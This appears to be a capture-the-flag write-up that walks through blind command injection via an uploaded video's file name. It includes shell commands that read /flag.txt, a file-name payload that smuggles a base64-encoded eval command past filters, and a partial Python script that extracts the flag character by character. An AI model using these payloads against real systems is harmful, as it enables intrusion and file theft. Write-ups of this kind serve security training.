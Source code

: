 ```bash 
cat /flag.txt
```
![](https://i.imgur.com/5mAOtef.png)

```bash 
cat /nonexistentfileprobablyihopeso
```
![](https://i.imgur.com/pWRctk3.png)

In blind SQL injection, a common technique is using an error-based or time-based oracle to determine the character code of some character in the data.

Why can't we do the same here?

We can pipe our `cat /flag.txt` to `cut` to get a character. Then, we pipe again to `od` to determine the character code. From there, we use `test` or `if` to trigger some conditional behaviour based on the character code-- like dividing by 0 to deliberately cause an error.

A payload for testing the first character might look like:
```bash
test $(cat /flag.txt | cut -c 0 | tr -d "\n" | od -An -t dC) -gt <char code> && echo plswork || 1/0
```

We can use our base64 encoded payload method from before to ignore the character restrictions and extend it using a binary search algorithm to determine each character in around 8 requests:

*Note: I know the flag is 46 characters long because `od` returns 0 when the character is non-existent.*

```python
import requests
import base64

VICTIM_URL = 'https://challenge-0723.intigriti.io'
UPLOAD_ENDPOINT = '/upload'

FLAG_LENGTH = 46

# we assume the flag is ascii printable
MAX_CHAR_CODE = 126
MIN_CHAR_CODE = 33

def greater_query_cmd(index, charCode):
    return fr'test $(cat /flag.txt | cut -c {index + 1} | tr -d "\n" | od -An -t dC) -gt {charCode} && echo plswork || 1/0'

def lesser_query_cmd(index, charCode):
    return fr'test $(cat /flag.txt | cut -c {index + 1} | tr -d "\n" | od -An -t dC) -lt {charCode} && echo plswork || 1/0'

def equal_query_cmd(index, charCode):
    return fr'test $(cat /flag.txt | cut -c {index + 1} | tr -d "\n" | od -An -t dC) -eq {charCode} && echo plswork || 1/0'

def build_payload(cmd):
    cmd_base64 = base64.b64encode(cmd.encode('utf-8')) 
    return r'abcd.mp4;eval${IFS}$(echo${IFS}' + cmd_base64.decode('utf-8') + r'|base64${IFS}-d);#${IFS}.mp4'

def send_cmd(cmd):
    payload = build_payload(cmd)
    files = {
        'video': (
            payload,
            bytes(),
            'video/mp4'
```